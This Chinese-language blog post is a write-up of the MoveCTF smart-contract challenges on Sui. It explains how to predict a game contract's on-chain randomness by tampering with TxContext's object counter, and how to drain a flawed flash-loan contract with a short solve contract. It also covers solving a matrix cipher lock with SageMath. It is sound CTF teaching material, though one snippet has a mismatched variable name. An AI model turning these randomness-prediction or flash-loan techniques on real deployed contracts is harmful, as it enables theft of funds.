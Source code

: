 ```yaml
---
layout: post
title: movectf-writeup
date: 2022-11-10 14:11:21
tags:
---
```


> 由 Sui 开发公司 Mysten Labs 支持的首个 MoveCTF（Capture The Flag）安全竞赛包含四道题目一下是所有题目的题解
>
> 题目源码和题解：https://github.com/chrisyy2003/ctf-writeup/tree/main/MoveCTF



# checkin

 调用entry入口函数从而触发Flag事件

```move

public entry fun get_flag(ctx: &mut TxContext) {
        event::emit(Flag {
            user: tx_context::sender(ctx),
            flag: true
        })
    }
```

调用函数可以通过cli来调用

```move
# get_flag
sui client call --function get_flag --module checkin --package <packageID> --gas-budget 3000
```

# simple_game

> 题目源码：[source code](https://github.com/chrisyy2003/ctf-writeup/tree/main/MoveCTF/simple_game)
> 
> 
> 题解代码：[solve code](https://github.com/chrisyy2003/ctf-writeup/tree/main/MoveCTF/simple_game/solve)
> 

这道题是一个区块链上的游戏，部署时创建了一个Hero，每个英雄具有 200 点体力, 每次与普通怪物战斗消耗 1 点体力，与 Boss 战斗消耗 2 点体力。体力耗尽后，英雄不再能够战斗。

每次击杀怪物后，英雄经验 +1，当英雄经验达到 100 后，可以升级；升级后英雄 HP，strength，defense 均提升；英雄最高等级为 2。英雄等级达到 2 后，可以根据装备稀有度继续刷怪物或者击杀 Boss；击败 Boss 后，有 1% 几率掉落宝箱，最后打开宝箱同样也只有1%几率成功打开。

通过分析得到如果直接去打boss，一个是每次都会扣除2点的体力值，第二是击败后宝箱掉落几率太低。即使运气好击败boss成功掉落，后面打开TreasuryBox同样只有1%的概率，且如果随机数不为0的话宝箱则会丢失。所以需要预测随机数，才能在200的体力的限制下，成功击杀 Boss，保证掉落几率 100%，最后成功打开。

题目的随机数是通过[random](https://github.com/chrisyy2003/ctf-writeup/blob/main/MoveCTF/simple_game/sources/random.move)库实现的，随机数种子是`ctx_bytes`和`uid_bytes`的拼接，`uid_bytes`是sui中object对象中`uid`字段转字节后的值。

```move
fun seed(ctx: &mut TxContext): vector<u8> {
        let ctx_bytes = bcs::to_bytes(ctx);
        let uid = object::new(ctx);
        let uid_bytes: vector<u8> = object::uid_to_bytes(&uid);
        object::delete(uid);

        let info: vector<u8> = vector::empty<u8>();
        vector::append<u8>(&mut info, ctx_bytes);
        vector::append<u8>(&mut info, uid_bytes);

        let hash: vector<u8> = hash::sha3_256(info);
        hash
    }
```

所以如果能够获得当前交易的`ctx_bytes`和新生成的`uid`即可预测seed。

`uid`是由[tx_context](https://github.com/MystenLabs/sui/blob/devnet-0.15.0/crates/sui-framework/sources/tx_context.move#L53)库中的new函数通过ctx参数生成，内部调用了内置`derive_id`函数，`derive_id`通过当前交易的哈希值和`ids_created`拼接生成，`hash(tx_hash || ids_created)`

```move
/// Generate a new, globally unique object ID with version 0
public(friend) fun new_object(ctx: &mut TxContext): address {
        let ids_created = ctx.ids_created;
        let id = derive_id(*&ctx.tx_hash, ids_created);
        ctx.ids_created = ids_created + 1;
        id
    }

/// Native function for deriving an ID via hash(tx_hash || ids_created)
native fun derive_id(tx_hash: vector<u8>, ids_created: u64): address;
```

通过TxContext结构体可以得到，`ids_created`是`TxContext`的内置字段，表示当前交易被创建了多少个对象的一个计数器。

```move
struct TxContext has drop {
        /// A `signer` wrapping the address of the user that signed the current transaction
        signer: signer,
        /// Hash of the current transaction
        tx_hash: vector<u8>,
        /// The current epoch number.
        epoch: u64,
        /// Counter recording the number of fresh id's created while executing
        /// this transaction. Always 0 at the start of a transaction
        ids_created: u64
    }
```

所以，如果能够获得当前交易被创建了多少个对象即可获得下一个`UID`的值，从而知道下一个seed的返回值。

但是函数参数中的`ctx`由于在定义的`TxContext`模块外，Move不能在模块以外直接修改其中的`ids_created`值，所以需要利用[bcs库](https://github.com/MystenLabs/sui/blob/devnet-0.15.0/crates/sui-framework/sources/bcs.move)反序列化`ctx`对象，从而手动修改`ids_created`值。

bcs库主要实现了move中对象的一些序列化和反序列化操作，新建一个bcs对象会使得结构体的存储顺序交换，因为其中会调用`v::reverse(&mut bytes)` ，所以返回结果中首20个字节是地址，紧接着是`tx_hash`，`epoch`，`ids_created`。

```move
let ctx_bytes = bcs::new(bcs::to_bytes(ctx));
let _recover_address = bcs::peel_address(&mut ctx_bytes);
let recover_tx_hash = bcs::peel_vec_u8(&mut ctx_bytes);
let _recover_epoch = bcs::peel_u64(&mut ctx_bytes);
let recover_ = bcs::peel_u64(&mut ctx_bytes);
// 加上对象创建的数量
let ids_created = recover_ids_created + uid_offset;
```

拿到`ids`，加上预测交易中可能创建的对象数，再将新的`ids`和`tx_hash`序列化为`uid`，随后按照题目中的seed的构造方式构造自己的seed即可。

> 需要注意的是，[object::new](https://github.com/MystenLabs/sui/blob/devnet-0.15.0/crates/sui-framework/sources/tx_context.move#L55-L56)时，是先计算id值，后更新id，所以预测的seed实际上是下一次seed的值
> 

最后封装一个`refresh_ctx`函数，每次使得offset的值+1，（也就是创建的对象数+1）去寻找随机数为0的id数。如果为0则跳出循环，并创建刚才循环次数的对象数从而修改ctx中的参数，最后使得合约下一次随机数为0。

此外，在`slay_boar_king`时，源码中创建`monster`时会[调用四次随机数](https://github.com/chrisyy2003/ctf-writeup/blob/main/MoveCTF/simple_game/sources/adventure.move#L69-L72)，所以打boss时需要预测随机数为0的[前四次](https://github.com/chrisyy2003/ctf-writeup/blob/main/MoveCTF/simple_game/solve/sources/main.move#L20)。

此题题解源码：[https://github.com/chrisyy2003/ctf-writeup/tree/main/MoveCTF/simple_game/solve](https://github.com/chrisyy2003/ctf-writeup/tree/main/MoveCTF/simple_game/solve)

# flash loan

> 题目源码：[source code](https://github.com/chrisyy2003/ctf-writeup/tree/main/MoveCTF/flash_loan)
> 
> 
> 题解代码：[solve code](https://github.com/chrisyy2003/ctf-writeup/tree/main/MoveCTF/flash_loan/solve)
> 

根据闪电贷的逻辑，每个人可以给`FlashLender`借钱，并且结构题存在一个VecMap记录着每个人存放了多少。

由于逻辑设计的问题，用户可以通过闪电贷来增加自己的存款余额，此外闪电贷的设计是`repay`和`check`余额是分开的，`check`检查余额的时候也是检查整个`Lender`的余额和`Last`的比较，所以导致check消耗我们的`receipt`的时候不需要传入代币，从而可以导致`FlashLender`中记录的值大于实际拥有的值。

所以通过闪电贷借出后再向Lender存款增加余额，最后再提取即可。

```move
entry public fun do(self: &mut FlashLender, ctx: &mut TxContext) {
        let (coin, receipt) = flash::loan(self, 1000, ctx);
        flash::deposit(self, coin, ctx);
        flash::check(self, receipt);
        flash::withdraw(self, 1000, ctx);

        flash::get_flag(self, ctx);
    }
```

最后通过cli调用部署的solve合约，从而获得Flag。

```move
sui client call --function do --module m --package <your_packID> --args <FlashLenderID> --gas-budget 3000
```

# move_lock

> 题目源码：[source code](https://github.com/chrisyy2003/ctf-writeup/tree/main/MoveCTF/move_lock)
>
>
> 题解代码：[solve code](https://github.com/chrisyy2003/ctf-writeup/blob/main/MoveCTF/move_lock/solve.py)

这道题关于一些数学知识。其中最核心是以下代码，通过变量名能够想到$A$是一个$3\times3$的矩阵，通过表达式可以得出其含义为$A$矩阵左乘$P$矩阵，即$AP=C$

```move
let c11 = ( (a11 * p11) + (a12 * p21) + (a13 * p31) ) % 26;
let c21 = ( (a21 * p11) + (a22 * p21) + (a23 * p31) ) % 26;
let c31 = ( (a31 * p11) + (a32 * p21) + (a33 * p31) ) % 26;
```

$$
\left[\begin{array}{ccc}a_{11} & a_{12} & a_{13} \\a_{21} & a_{22} & a_{23} \\a_{31} & a_{33} & a_{33}\end{array}\right]\left[\begin{array}{l}p_{11} \\p_{21} \\p_{31}\end{array}\right]=\left[\begin{array}{l}a_{11} \times p_{11}+a_{12} \times p_{21}+a_{13} \times p_{33} \\a_{21} \times p_{11}+a_{22} \times p_{21}+a_{23} \times p_{33} \\a_{31} \times p_{11}+a_{32} \times p_{21}+a_{33} \times p_{33}\end{array}\right]=\left[\begin{array}{l}c_{11} \\c_{21} \\c_{31}\end{array}\right]
$$

由于$P$矩阵是`complete_plaintext`，`complete_plaintext`前9个已知，所以$P$矩阵已知，$C$矩阵为`encrypted_flag`，前9个同样已知。所以通过sagemath中的[solve_left](https://doc.sagemath.org/html/en/tutorial/tour_linalg.html#linear-algebra)可以求的$A$矩阵即源码中的`key`，求的$A$后由于`complete_plaintext`除前9个以外$P$未均知，但$C$已知，所以通过[solve_right](https://doc.sagemath.org/html/en/tutorial/tour_linalg.html#linear-algebra)再求一次即可。

> 由于`encrypted_flag`输出3个是c矩阵中的列，所以处理`encrypted_flag`时，需要三个一组
并调用`transpose`转置一下
sagamath有在线运行环境：[https://sagecell.sagemath.org/](https://sagecell.sagemath.org/)
> 

此外还有一个不成熟的想法，利用sagemath中的[solve_mod](https://doc.sagemath.org/html/en/reference/calculus/sage/symbolic/relation.html?highlight=solve_mod)直接解一个9元的非线性方程，但是跑了很久没有跑出来，应该是复杂度的问题。